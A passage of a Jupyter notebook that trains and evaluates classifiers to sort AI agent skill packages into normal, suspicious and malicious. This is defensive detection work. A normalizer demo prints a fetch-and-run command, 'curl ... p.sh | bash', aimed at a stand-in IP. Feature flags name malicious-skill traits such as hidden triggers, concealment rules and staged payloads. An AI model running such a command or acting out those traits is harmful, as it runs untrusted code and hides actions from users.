        text = SCRIPT_PATH_RE.sub(" tok_script ", text)
    text = IP_RE.sub(" tok_ipaddr ", text)
    text = HEX_RE.sub(" tok_hexblob ", text)
    text = B64_RE.sub(" tok_b64blob ", text)
    return text


df["skill_md_clean"] = df["skill_md_text"].map(normalize_text)
df["full_clean"]     = df["full_text"].map(normalize_text)
df["full_no_notes"]  = df["full_text"].map(strip_generator_notes)

demo = "curl -s http://203.0.113.7/p.sh | bash && echo aGVsbG8gd29ybGQgdGhpcyBpcyBhIGxvbmcgYmFzZTY0IHN0cmluZw=="
print("before:", demo)
print("after: ", normalize_text(demo))
demo2 = "### FILE: scripts/_bootstrap.py\nRun `python scripts/_bootstrap.py` once, then ./tools/check.sh --all"
print("\nbefore:", demo2.replace("\n", " | "))
print("after: ", normalize_text(demo2).replace("\n", " | "))
demo3 = "### Cleanup Review\n\n`python scripts/_reset_state.py` is an optional cleanup helper. It may remove /tmp/x."
print("\nbefore:", demo3.replace("\n", " | "))
print("after: ", normalize_text(demo3).replace("\n", " | "))


before: curl -s http://203.0.113.7/p.sh | bash && echo aGVsbG8gd29ybGQgdGhpcyBpcyBhIGxvbmcgYmFzZTY0IHN0cmluZw==
after:  curl -s  tok_url tok_ipaddr  | bash && echo  tok_b64blob 

before: ### FILE: scripts/_bootstrap.py | Run `python scripts/_bootstrap.py` once, then ./tools/check.sh --all
after:   | Run `python  tok_script ` once, then  tok_script  --all

before: ### Cleanup Review |  | `python scripts/_reset_state.py` is an optional cleanup helper. It may remove /tmp/x.
after:   | `python  tok_script ` cleanup helper. It may remove /tmp/x.


In [10]:
n0 = len(df)
df = df[(df["full_chars"] > 0) & df["has_skill_md"]]
print(f"1) dropped {n0 - len(df)} cases without readable text / SKILL.md")

# Hash the text the model will actually see (after removing notes and masking)
df["text_hash"] = df["full_clean"].map(lambda t: hashlib.sha256(t.encode("utf-8", "ignore")).hexdigest())
labels_per_hash = df.groupby("text_hash")["judgment"].nunique()
conflict_hashes = set(labels_per_hash[labels_per_hash > 1].index)

n1 = len(df)
df = df[~df["text_hash"].isin(conflict_hashes)]
print(f"2) dropped {n1 - len(df)} rows with conflicting labels")

n2 = len(df)
df = df.drop_duplicates("text_hash").reset_index(drop=True)
print(f"3) dropped {n2 - len(df)} exact duplicates")
print(f"   -> {len(df):,} clean cases (from {n0:,})")
print(df["judgment"].value_counts().reindex(LABELS).to_string())


1) dropped 0 cases without readable text / SKILL.md
2) dropped 0 rows with conflicting labels
3) dropped 22 exact duplicates
   -> 5,498 clean cases (from 5,520)
judgment
normal        1643
suspicious    1014
malicious     2841


### 3.1 Split Data to Train / Test

A **stratified 80 / 20 split** keeps the normal / suspicious / malicious proportions identical in both sets.
The test set is put aside and only used once.

In [11]:
TEXT_COL = "full_clean"     # main input: SKILL.md + scripts

train_df, test_df = train_test_split(df, test_size=TEST_SIZE, stratify=df["judgment"],
                                     random_state=RANDOM_STATE)
train_df, test_df = train_df.reset_index(drop=True), test_df.reset_index(drop=True)
FEATURE_COLS = [TEXT_COL] + FLAG_COLS   # text + the binary flags
X_train, y_train = train_df[FEATURE_COLS], train_df["judgment"]
X_test,  y_test  = test_df[FEATURE_COLS],  test_df["judgment"]

pd.DataFrame({"train": y_train.value_counts(), "test": y_test.value_counts()}).reindex(LABELS)

,train,test
judgment,,
normal,1314,329
suspicious,811,203
malicious,2273,568


In [12]:
# % of skills in each class that contain each placeholder token / flag
TOKENS = ["tok_url", "tok_ipaddr", "tok_script", "tok_b64blob", "tok_hexblob"]

rows = {}
for tok in TOKENS:
    has = df[TEXT_COL].str.contains(tok, regex=False)
    rows[tok] = has.groupby(df["judgment"]).mean() * 100

for flag in FLAG_COLS:
    rows[f"[flag] {flag}"] = (df[flag] == 1).groupby(df["judgment"]).mean() * 100

presence = pd.DataFrame(rows).T[LABELS].round(1)
presence.columns = [f"% {c}" for c in LABELS]
presence["n skills"] = [
    int(df[TEXT_COL].str.contains(t, regex=False).sum()) if t.startswith("tok_")
    else int((df[t.replace("[flag] ", "")] == 1).sum())
    for t in presence.index
]

print(df["judgment"].value_counts().reindex(LABELS).to_string(), "\n")
presence

judgment
normal        1643
suspicious    1014
malicious     2841 



,% normal,% suspicious,% malicious,n skills
tok_url,61.7,65.1,66.9,3575
tok_ipaddr,6.9,7.3,22.9,838
tok_script,85.1,99.9,95.5,5124
tok_b64blob,9.9,19.0,51.1,1807
tok_hexblob,5.2,3.8,4.3,245
[flag] has_hidden_trigger,2.3,7.6,27.4,894
[flag] has_concealment_rule,0.6,0.0,32.9,944
[flag] has_self_protection,0.1,0.3,4.0,120
[flag] has_risky_setup_step,5.1,4.0,11.1,439
[flag] has_staged_payload,0.0,0.0,31.5,894


## 4. Features Extraction


Each skill is converted to a vector of **TF-IDF** weights: a term gets a high weight when it is frequent in a skill but rare across all skills.

| Setting | Value | Reason |
|---|---|---|
| `ngram_range` | (1, 2) | Single words and pairs of neighbouring words are both kept as features (`base64 decode`, `not tell`, `rm rf`) |
| `min_df` / `max_df` | 2 / 0.95 | drop one-off tokens (typos, random IDs) |
| `max_features` | 5,000 | keeps the matrix small enough for KNN and fast for the API |
| `sublinear_tf` | True | `1 + log(tf)` stops very long files from dominating |

The vectoriser is part of every model's `Pipeline`, so in cross-validation it is re-fitted on each training fold only.
| stop words | **removed, except negations** (v2) | filler words like *that*, *an*, *the* carry no meaning; negations (*not*, *never*, *no*, *without*, …) are kept because they matter in instructions such as "do **not** tell the user" |

In [13]:
from sklearn.feature_extraction.text import ENGLISH_STOP_WORDS

# negations are kept even when filler words are removed
NEGATIONS = {"no", "not", "nor", "never", "none", "nothing", "nobody", "nowhere", "neither", "cannot",
             "without", "except", "always"}
FILLER_WORDS = sorted(ENGLISH_STOP_WORDS - NEGATIONS) if REMOVE_FILLER_WORDS else None

TFIDF_PARAMS = dict(stop_words=FILLER_WORDS, ngram_range=(1, 2), min_df=2, max_df=0.95, max_features=5_000,
                    sublinear_tf=True, dtype=np.float32)

vec_preview = TfidfVectorizer(**TFIDF_PARAMS) # type: ignore
Xp = vec_preview.fit_transform(X_train[TEXT_COL])
print(f"Training matrix: {Xp.shape[0]:,} documents × {Xp.shape[1]:,} TF-IDF features "
      f"+ {len(FLAG_COLS)} binary flags = {Xp.shape[1] + len(FLAG_COLS):,} columns")
print(f"Non-zero entries per document (mean): {Xp.getnnz(axis=1).mean():.0f}  "
      f"-> sparsity {1 - Xp.nnz / (Xp.shape[0] * Xp.shape[1]):.2%}")
print(f"Filler words removed: {len(FILLER_WORDS) if FILLER_WORDS else 0} (negations kept: {sorted(NEGATIONS)})")

Training matrix: 4,398 documents × 5,000 TF-IDF features + 9 binary flags = 5,009 columns
Non-zero entries per document (mean): 446  -> sparsity 91.08%
Filler words removed: 305 (negations kept: ['always', 'cannot', 'except', 'neither', 'never', 'no', 'nobody', 'none', 'nor', 'not', 'nothing', 'nowhere', 'without'])


## 5. Modelling

### 5.1 Algorithms and why we chose them

| Model | How it works | Why it fits this problem | Expected weaknesses |
|---|---|---|---|
| **Decision Tree** | learns if/else rules on term weights | fully **interpretable** | overfits easily on 50k sparse features; unstable |
| **Naive Bayes** | word probabilities per class, assumes independent words | classic, very fast text baseline; designed for **imbalanced** text data | the independence assumption ignores context |
| **SVM** (linear) | finds the widest-margin hyperplane between classes | state-of-the-art for high-dimensional sparse TF-IDF; per-term weights are **explainable** | no probabilities by default; linear only |
| **KNN** (cosine) | label of the most similar training skills | intuitive: "this skill looks like these known malicious skills"; no training | slow at prediction time (compares to every training skill); suffers in high dimensions |
| **Random Forest** | many decision trees, each trained on a random sample of skills and features; majority vote | much more accurate and stable than one tree; still gives feature importances | slower to train; harder to read than a single tree |
| **XGBoost** | gradient boosting: trees are added one by one, each fixing the errors of the previous ones | often the strongest model on many sparse features | more hyperparameters; can overfit if not tuned; not directly interpretable |

A **baseline** (`DummyClassifier`) is included: every model must clearly beat it.

In [14]:
memory = joblib.Memory(location=str(CACHE_DIR), verbose=0)


def make_pipeline(clf, cache=True):
    # TF-IDF on the text column + the binary flags passed through unchanged (0/1)
    features = ColumnTransformer([("tfidf", TfidfVectorizer(**TFIDF_PARAMS), TEXT_COL),  # type: ignore
                                  ("flags", "passthrough", FLAG_COLS)])
    return Pipeline([("features", features), ("clf", clf)], memory=memory if cache else None)


def feature_names(pipe):
    """Readable names: TF-IDF terms as-is, flags prefixed with [flag]."""
    names = pipe.named_steps["features"].get_feature_names_out()
    return np.array([n.replace("tfidf__", "", 1) if n.startswith("tfidf__")
                     else "[flag] " + n.replace("flags__", "", 1) for n in names])


class XGBoostText(ClassifierMixin, BaseEstimator):
    """XGBoost that accepts the text labels (normal / suspicious / malicious) like the other models.

    XGBoost itself only accepts the numbers 0, 1, 2, so the labels are encoded inside fit() and decoded in predict().
    Classes are weighted 'balanced' (same idea as class_weight="balanced" in the Decision Tree, SVM and Random Forest).
    missing=0.0: an absent term counts as "missing" whether the matrix is sparse (training) or dense (permutation
    importance in 7.2), so both give exactly the same predictions.
    """

    def __init__(self, n_estimators=300, max_depth=6, learning_rate=0.1, subsample=0.8, colsample_bytree=0.5,
                 random_state=RANDOM_STATE, n_jobs=1):
        self.n_estimators = n_estimators
        self.max_depth = max_depth
        self.learning_rate = learning_rate
        self.subsample = subsample
        self.colsample_bytree = colsample_bytree
        self.random_state = random_state
        self.n_jobs = n_jobs

    def fit(self, X, y):
        self.encoder_ = LabelEncoder().fit(y)
        self.classes_ = self.encoder_.classes_
        self.model_ = XGBClassifier(n_estimators=self.n_estimators, max_depth=self.max_depth,
                                    learning_rate=self.learning_rate, subsample=self.subsample,
                                    colsample_bytree=self.colsample_bytree, random_state=self.random_state,
                                    n_jobs=self.n_jobs, tree_method="hist", missing=0.0, eval_metric="mlogloss")
        self.model_.fit(X, self.encoder_.transform(y), sample_weight=compute_sample_weight("balanced", y))
        return self

    def predict(self, X):
        return self.encoder_.inverse_transform(self.model_.predict(X))

    def predict_proba(self, X):
        return self.model_.predict_proba(X)

    @property
    def feature_importances_(self):
        return self.model_.feature_importances_


# n_jobs=1 inside RF / XGBoost: cross-validation, grid search and permutation importance already run in parallel
MODELS = {
    "Decision Tree": DecisionTreeClassifier(max_depth=15, min_samples_leaf=2,
                                            class_weight="balanced", random_state=RANDOM_STATE),
    "Naive Bayes":   ComplementNB(alpha=0.1),
    "SVM":           LinearSVC(C=1.0, class_weight="balanced", random_state=RANDOM_STATE),
    "KNN":           KNeighborsClassifier(n_neighbors=5, metric="cosine", weights="distance"),
    "Random Forest": RandomForestClassifier(n_estimators=300, class_weight="balanced",
                                            random_state=RANDOM_STATE, n_jobs=1),
}
if HAS_XGBOOST:
    MODELS["XGBoost"] = XGBoostText()
BASELINE = DummyClassifier(strategy="most_frequent")
cv = StratifiedKFold(n_splits=CV_FOLDS, shuffle=True, random_state=RANDOM_STATE)
SCORING = {"accuracy": "accuracy", "precision_macro": "precision_macro",
           "recall_macro": "recall_macro", "f1_macro": "f1_macro"}

### 5.2 Cross-validation comparison for F1-macro (5 folds)

In [15]:
cv_rows = []
for name, clf in {"Baseline": BASELINE, **MODELS}.items():
    t0 = time.time()
    res = cross_validate(make_pipeline(clf), X_train, y_train, cv=cv, scoring=SCORING, n_jobs=N_JOBS)
    row = {"model": name}
    for m in SCORING:
        row[f"{m} mean"] = res[f"test_{m}"].mean()
        row[f"{m} std"]  = res[f"test_{m}"].std()
    row["wall time (s)"] = str(time.time() - t0)
    cv_rows.append(row)
    print(f"{name:20s} macro-F1 = {row['f1_macro mean']:.3f} ± {row['f1_macro std']:.3f}")

cv_default = pd.DataFrame(cv_rows).set_index("model")
cv_default.round(3)

/Users/kirabokakopoatuhurira/Library/Python/3.9/lib/python/site-packages/sklearn/metrics/_classification.py:1565: UndefinedMetricWarning: Precision is ill-defined and being set to 0.0 in labels with no predicted samples. Use `zero_division` parameter to control this behavior.
  _warn_prf(average, modifier, f"{metric.capitalize()} is", len(result))
/Users/kirabokakopoatuhurira/Library/Python/3.9/lib/python/site-packages/sklearn/metrics/_classification.py:1565: UndefinedMetricWarning: Precision is ill-defined and being set to 0.0 in labels with no predicted samples. Use `zero_division` parameter to control this behavior.
  _warn_prf(average, modifier, f"{metric.capitalize()} is", len(result))
/Users/kirabokakopoatuhurira/Library/Python/3.9/lib/python/site-packages/sklearn/metrics/_classification.py:1565: UndefinedMetricWarning: Precision is ill-defined and being set to 0.0 in labels with no predicted samples. Use `zero_division` parameter to control this behavior.
  _warn_prf(average, mo

Baseline             macro-F1 = 0.227 ± 0.000
Decision Tree        macro-F1 = 0.894 ± 0.007
Naive Bayes          macro-F1 = 0.695 ± 0.020
SVM                  macro-F1 = 0.908 ± 0.006
KNN                  macro-F1 = 0.523 ± 0.020
Random Forest        macro-F1 = 0.920 ± 0.012
XGBoost              macro-F1 = 0.970 ± 0.003


,accuracy mean,accuracy std,precision_macro mean,precision_macro std,recall_macro mean,recall_macro std,f1_macro mean,f1_macro std,wall time (s)
model,,,,,,,,,
Baseline,0.517,0.000,0.172,0.000,0.333,0.000,0.227,0.000,8.946135997772217
Decision Tree,0.902,0.008,0.890,0.009,0.899,0.009,0.894,0.007,9.472617864608765
Naive Bayes,0.741,0.015,0.706,0.017,0.709,0.019,0.695,0.020,6.204650163650513
SVM,0.920,0.006,0.906,0.007,0.911,0.006,0.908,0.006,7.334936141967773
KNN,0.615,0.019,0.524,0.021,0.523,0.020,0.523,0.020,6.648471832275391
Random Forest,0.925,0.009,0.927,0.009,0.914,0.015,0.920,0.012,18.635539054870605
XGBoost,0.972,0.002,0.967,0.003,0.974,0.004,0.970,0.003,161.2222340106964


### 5.3 Hyperparameter tuning (grid search, 3-fold CV on the training set)

In [16]:
PARAM_GRIDS = {
    "Decision Tree": {"clf__max_depth": [15, 30, None], "clf__min_samples_leaf": [1, 2, 5]},
    "Naive Bayes":   {"clf__alpha": [0.01, 0.05, 0.1, 0.5, 1.0]},
    "SVM":           {"clf__C": [0.1, 0.5, 1.0, 5.0]},
    "KNN":           {"clf__n_neighbors": [3, 5, 9, 15], "clf__weights": ["uniform", "distance"]},
    "Random Forest": {"clf__max_depth": [None, 40], "clf__min_samples_leaf": [1, 2]},
    "XGBoost":       {"clf__max_depth": [4, 6], "clf__learning_rate": [0.1, 0.3]},
}

best_models, tuning_rows = {}, []
RUN_TUNING = True
if RUN_TUNING:
    cv3 = StratifiedKFold(n_splits=3, shuffle=True, random_state=RANDOM_STATE)
    for name, clf in MODELS.items():
        t0 = time.time()
        gs = GridSearchCV(make_pipeline(clf), PARAM_GRIDS[name], scoring="f1_macro",
                          cv=cv3, n_jobs=N_JOBS)
        gs.fit(X_train, y_train)
        best_models[name] = gs.best_estimator_.named_steps["clf"]
        tuning_rows.append({"model": name, "best params": gs.best_params_,
                            "best CV macro F1": round(gs.best_score_, 4),
                            "default CV macro F1": round(cv_default.loc[name, "f1_macro mean"], 4), # type: ignore
                            "search time (s)": round(time.time() - t0, 1)})
        print(f"{name:14s} best {gs.best_params_}  macro-F1 {gs.best_score_:.3f}")
    tuning = pd.DataFrame(tuning_rows).set_index("model")
    display(tuning)
else:
    best_models = {n: clone(c) for n, c in MODELS.items()}
    print("Tuning skipped – using default hyperparameters.")

Decision Tree  best {'clf__max_depth': 15, 'clf__min_samples_leaf': 5}  macro-F1 0.895
Naive Bayes    best {'clf__alpha': 0.1}  macro-F1 0.698
SVM            best {'clf__C': 5.0}  macro-F1 0.915
KNN            best {'clf__n_neighbors': 15, 'clf__weights': 'uniform'}  macro-F1 0.673
Random Forest  best {'clf__max_depth': 40, 'clf__min_samples_leaf': 2}  macro-F1 0.921
XGBoost        best {'clf__learning_rate': 0.3, 'clf__max_depth': 4}  macro-F1 0.968


,best params,best CV macro F1,default CV macro F1,search time (s)
model,,,,
Decision Tree,"{'clf__max_depth': 15, 'clf__min_samples_leaf'...",0.8947,0.8941,45.3
Naive Bayes,{'clf__alpha': 0.1},0.6979,0.6953,21.3
SVM,{'clf__C': 5.0},0.9152,0.9076,25.2
KNN,"{'clf__n_neighbors': 15, 'clf__weights': 'unif...",0.6730,0.5226,48.5
Random Forest,"{'clf__max_depth': 40, 'clf__min_samples_leaf'...",0.9211,0.9196,62.0
XGBoost,"{'clf__learning_rate': 0.3, 'clf__max_depth': 4}",0.9678,0.9702,278.9


## 6. Model Evaluation

### 6.1 Metrics we use

| Metric | Why it matters for this system |
|---|---|
| **Macro F1** (primary) | averages F1 over the 3 classes equally, so the small *suspicious* class counts as much as *malicious* |
| Macro precision / recall | precision = how often an alarm is real; recall = how many risky skills are caught |
| Accuracy | reported for completeness; misleading on its own because of imbalance |
| Prediction latency | for non-functional requirement |

### 6.2 Training models on the training set

In [17]:
final_models, timings = {}, {}
for name in ["Baseline", *MODELS]:
    clf = BASELINE if name.startswith("Baseline") else best_models[name]
    pipe = make_pipeline(clone(clf), cache=False)
    t0 = time.time(); pipe.fit(X_train, y_train); fit_s = time.time() - t0
    t1 = time.time(); pipe.predict(X_test);       pred_s = time.time() - t1
    final_models[name] = pipe
    timings[name] = {"fit time (s)": fit_s, "latency per skill (ms)": 1000 * pred_s / len(X_test)}
    print(f"{name:20s} train {fit_s:6.1f}s   predict {1000 * pred_s / len(X_test):6.2f} ms/skill")

Baseline             train   32.2s   predict   4.28 ms/skill
Decision Tree        train   37.1s   predict   3.99 ms/skill
Naive Bayes          train   29.3s   predict   3.61 ms/skill
SVM                  train   35.3s   predict   4.33 ms/skill
KNN                  train   28.4s   predict   5.64 ms/skill
Random Forest        train   53.9s   predict   4.67 ms/skill
XGBoost              train   77.5s   predict   3.99 ms/skill


### 6.3 Results

In [18]:
def evaluate(y_true, y_pred):
    y_true, y_pred = pd.Series(y_true).values, pd.Series(y_pred).values
    return {
        "accuracy":         accuracy_score(y_true, y_pred),
        "macro precision":  precision_score(y_true, y_pred, average="macro", zero_division=0),
        "macro recall":     recall_score(y_true, y_pred, average="macro", zero_division=0),
        "macro F1":         f1_score(y_true, y_pred, average="macro", zero_division=0),
        "weighted F1":      f1_score(y_true, y_pred, average="weighted", zero_division=0),
    }

test_preds = {name: m.predict(X_test) for name, m in final_models.items()}
results = pd.DataFrame({n: {**evaluate(y_test, p), **timings[n]} for n, p in test_preds.items()}).T
results.round(3)

,accuracy,macro precision,macro recall,macro F1,weighted F1,fit time (s),latency per skill (ms)
Baseline,0.516,0.172,0.333,0.227,0.352,32.183,4.277
Decision Tree,0.904,0.887,0.894,0.890,0.904,37.130,3.991
Naive Bayes,0.746,0.710,0.709,0.696,0.752,29.324,3.608
SVM,0.955,0.948,0.951,0.949,0.956,35.281,4.325
KNN,0.759,0.718,0.671,0.671,0.743,28.426,5.638
Random Forest,0.936,0.930,0.929,0.929,0.936,53.934,4.666
XGBoost,0.973,0.967,0.973,0.970,0.973,77.472,3.989


In [19]:
model_names = list(MODELS)
# The model is CHOSEN on cross-validation (training data only); the test set only reports how it does.
cv_scores = (tuning["best CV macro F1"] if RUN_TUNING else cv_default.loc[model_names, "f1_macro mean"])
best_name = cv_scores.astype(float).idxmax()
print(f"Selected model (highest CV macro F1): {best_name}  -> test macro F1 = {results.loc[best_name, 'macro F1']:.3f}\n") # type: ignore
for name in model_names:
    print(f"==================== {name} ====================")
    print(classification_report(y_test, test_preds[name], labels=LABELS, digits=3, zero_division=0))

Selected model (highest CV macro F1): XGBoost  -> test macro F1 = 0.970

==================== Decision Tree ====================
              precision    recall  f1-score   support

      normal      0.875     0.897     0.886       329
  suspicious      0.841     0.862     0.852       203
   malicious      0.944     0.923     0.933       568

    accuracy                          0.904      1100
   macro avg      0.887     0.894     0.890      1100
weighted avg      0.905     0.904     0.904      1100

==================== Naive Bayes ====================
              precision    recall  f1-score   support

      normal      0.607     0.881     0.719       329
  suspicious      0.544     0.483     0.512       203
   malicious      0.980     0.762     0.857       568

    accuracy                          0.746      1100
   macro avg      0.710     0.709     0.696      1100
weighted avg      0.788     0.746     0.752      1100

==================== SVM ====================
         



In [20]:
metrics_to_plot = ["macro F1", "macro recall", "macro precision", "accuracy"]
fig, ax = plt.subplots(figsize=(12, 3.8))
w = 0.2
x = np.arange(len(model_names))
for i, m in enumerate(metrics_to_plot):
    vals = results.loc[model_names, m].values
    ax.bar(x + (i - 1.5) * w, vals, width=w - 0.02, color=SERIES[i], label=m) # type: ignore
ax.axhline(results.loc["Baseline", "accuracy"], color=MUTED, ls="--", lw=1, # type: ignore
           label="Baseline accuracy")
ax.set_xticks(x, model_names); ax.set_ylim(0, 1.05); ax.set_ylabel("score")
ax.grid(axis="x", visible=False)
ax.legend(ncol=5, loc="lower center", bbox_to_anchor=(0.5, 1.0), fontsize=9)
ax.set_title("Test-set performance by model", pad=26)
save(fig, "01_test_metrics")



In [21]:
fig, axes = plt.subplots(2, 3, figsize=(15, 8.6))
axes = axes.ravel()
for k, (ax, name) in enumerate(zip(axes, model_names)):
    cm = confusion_matrix(y_test, test_preds[name], labels=LABELS)
    cm_pct = cm / cm.sum(axis=1, keepdims=True)
    ax.imshow(cm_pct, cmap=BLUES, vmin=0, vmax=1)
    for i in range(3):
        for j in range(3):
            ax.text(j, i, f"{cm[i, j]}\n{cm_pct[i, j]:.0%}", ha="center", va="center", fontsize=9,
                    color="white" if cm_pct[i, j] > 0.55 else INK)
    ax.set_xticks(range(3), LABELS); ax.set_yticks(range(3), LABELS)
    ax.set_xlabel("predicted"); ax.set_ylabel("true" if k % 3 == 0 else "")
    ax.grid(False); ax.tick_params(length=0)
    ax.set_title(f"{name}\nmacro F1 {results.loc[name, 'macro F1']:.3f}", fontsize=11)
for ax in axes[len(model_names):]:
    ax.set_visible(False)
fig.suptitle("Confusion matrices on the test set (count and row %)", x=0.01, ha="left",
             fontweight="bold", y=1.02)
fig.tight_layout()
save(fig, "02_confusion_matrices")

### 6.4 Models output

What the models actually return for unseen skills: how the predicted
label frequencies compare with the true ones, and a confidence score (Naive Bayes and KNN give class
probabilities; the SVM gives a margin score, where larger means more certain).

In [22]:
pred_dist = pd.DataFrame({"true labels": y_test.value_counts()}).reindex(LABELS)
for name in model_names:
    pred_dist[name] = pd.Series(test_preds[name]).value_counts().reindex(LABELS, fill_value=0)
print("How often each label is predicted on the test set (vs. the true labels):")
display(pred_dist)

out = test_df[["id", "judgment"]].rename(columns={"judgment": "true label"}).copy()
for name in model_names:
    out[name] = test_preds[name]
out["NB confidence"] = final_models["Naive Bayes"].predict_proba(X_test).max(axis=1).round(3)
out["SVM margin"]    = final_models["SVM"].decision_function(X_test).max(axis=1).round(3)
out["best model correct"] = out[best_name].eq(out["true label"])

# a sample with every true class represented, including a few mistakes of the best model
sample = pd.concat([out[out["true label"] == l].head(3) for l in LABELS] +
                   [out[~out["best model correct"]].head(3)]).drop_duplicates("id")
out.to_csv(MODEL_DIR / "test_predictions.csv", index=False)
print(f"Full prediction table saved to {MODEL_DIR / 'test_predictions.csv'}")
sample

How often each label is predicted on the test set (vs. the true labels):


,true labels,Decision Tree,Naive Bayes,SVM,KNN,Random Forest,XGBoost
judgment,,,,,,,
normal,329,337,478,333,414,350,339
suspicious,203,208,180,205,97,195,205
malicious,568,555,442,562,589,555,556


Full prediction table saved to models_svc_flags_v2/test_predictions.csv


,id,true label,Decision Tree,Naive Bayes,SVM,KNN,Random Forest,XGBoost,NB confidence,SVM margin,best model correct
2,case_05093,normal,normal,normal,normal,normal,normal,normal,0.459,2.005,True
6,case_01108,normal,normal,normal,normal,normal,normal,normal,0.389,1.132,True
7,case_03570,normal,normal,normal,normal,normal,normal,normal,0.698,1.269,True
3,case_05030,suspicious,suspicious,normal,suspicious,suspicious,suspicious,suspicious,0.479,0.891,True
5,case_01708,suspicious,suspicious,suspicious,suspicious,suspicious,suspicious,suspicious,0.637,1.972,True
8,case_00535,suspicious,normal,suspicious,suspicious,suspicious,suspicious,suspicious,0.567,1.870,True
0,case_05533,malicious,normal,normal,malicious,malicious,malicious,malicious,0.515,0.631,True
1,case_01609,malicious,malicious,malicious,malicious,malicious,malicious,malicious,0.820,1.757,True
4,case_04670,malicious,malicious,malicious,malicious,malicious,malicious,malicious,0.507,0.642,True
15,case_01127,normal,suspicious,suspicious,suspicious,suspicious,suspicious,suspicious,0.481,0.485,False


### 6.5 Stacking (a preview)

A **stacking** model combines the models above. Each base model (level 0) gives its per-class scores for a skill
(probabilities, or the SVM's decision scores), and a **logistic regression** (level 1) learns how much to trust each
model, per class, from those scores.

The level-1 model must learn from scores on skills the base models did **not** train on, otherwise it would trust
the models that memorise the training set (DT, RF). So:

* **training side:** every training skill is scored by models trained on the other 4 folds (`cross_val_predict`,
  same 5 folds and tuned settings as above). This is the only new training: 5 fits per model, about 5–10 minutes,
  done once (a re-run of the cell reuses them);
* **test side:** the models already trained in 6.2 are reused unchanged.

Two stacks: the **top 4** models and **all 6**. This section is a preview: it does not change the model chosen in
6.3, so Sections 7–10 still use that model. The CV macro F1 of a stack is the level-1 model's 5-fold score on the
out-of-fold training scores, so it is comparable with the CV column of the single models.

In [23]:
from sklearn.linear_model import LogisticRegression
from sklearn.model_selection import cross_val_predict, cross_val_score
from sklearn.preprocessing import StandardScaler
from sklearn.pipeline import make_pipeline as make_sk_pipeline

STACKS = {
    "Stack (top 4)": ["Decision Tree", "SVM", "Random Forest", "XGBoost"],
    "Stack (all 6)": ["Decision Tree", "Naive Bayes", "SVM", "KNN", "Random Forest", "XGBoost"],
}
STACKS = {s: [m for m in members if m in final_models] for s, members in STACKS.items()}   # e.g. no XGBoost installed


def score_method(pipe):
    """Class probabilities where the model has them, otherwise the SVM's per-class decision scores."""
    return "predict_proba" if hasattr(pipe, "predict_proba") else "decision_function"


# ---- level 0, TRAINING side: out-of-fold scores (each training skill scored by models that did not see it) ----
# Computed once per model with the tuned settings (best_models), then kept, so re-running this cell is fast.
if "oof_scores" not in globals():
    oof_scores = {}
for name in sorted({m for members in STACKS.values() for m in members}):
    if name in oof_scores:
        continue
    t0 = time.time()
    pipe = make_pipeline(clone(best_models[name]), cache=False)
    oof_scores[name] = cross_val_predict(pipe, X_train, y_train, cv=cv, method=score_method(pipe), n_jobs=N_JOBS)
    print(f"{name:14s} out-of-fold scores in {time.time() - t0:5.1f}s")

# ---- level 0, TEST side: the models already trained in 6.2 (nothing retrained) ----
test_scores = {name: getattr(final_models[name], score_method(final_models[name]))(X_test)
               for name in oof_scores}
classes = list(final_models["SVM"].classes_)      # column order of every score matrix (alphabetical)
assert all(list(final_models[n].classes_) == classes for n in oof_scores)

# ---- level 1: logistic regression on the base models' scores ----
stack_models, stack_preds, stack_rows = {}, {}, {}
for stack_name, members in STACKS.items():
    Z_train = np.hstack([oof_scores[m] for m in members])
    Z_test = np.hstack([test_scores[m] for m in members])
    meta = make_sk_pipeline(StandardScaler(), LogisticRegression(max_iter=5000, class_weight="balanced",
                                                                 random_state=RANDOM_STATE))
    with np.errstate(all="ignore"):   # silences harmless matmul warnings of numpy on macOS
        cv_f1 = cross_val_score(meta, Z_train, y_train, cv=cv, scoring="f1_macro").mean()
        meta.fit(Z_train, y_train)
    stack_models[stack_name] = meta
    stack_preds[stack_name] = meta.predict(Z_test)
